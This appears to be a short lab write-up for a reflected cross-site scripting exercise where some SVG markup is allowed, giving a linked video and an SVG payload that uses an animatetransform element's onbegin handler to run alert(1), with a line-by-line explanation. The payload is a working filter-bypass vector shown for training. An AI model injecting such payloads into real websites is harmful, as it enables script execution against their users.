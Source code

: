 ```yaml
---
layout: default
title: 16 - Reflected XSS with some SVG markup allowed
---
```


https://www.youtube.com/watch?v=7dKk4A6viWo

```html
<svg>
<animatetransform onbegin=alert(1) attributeName=transform>
</svg>
```
### Explanation:
- `<svg>`: The SVG container.
- `<animatetransform>`: An SVG element that allows for animations on transformations like `rotate`, `scale`, etc.
- `onbegin=alert(1)`: This triggers a JavaScript `alert(1)` when the animation begins.
- `attributeName=transform`: Specifies the attribute to animate.

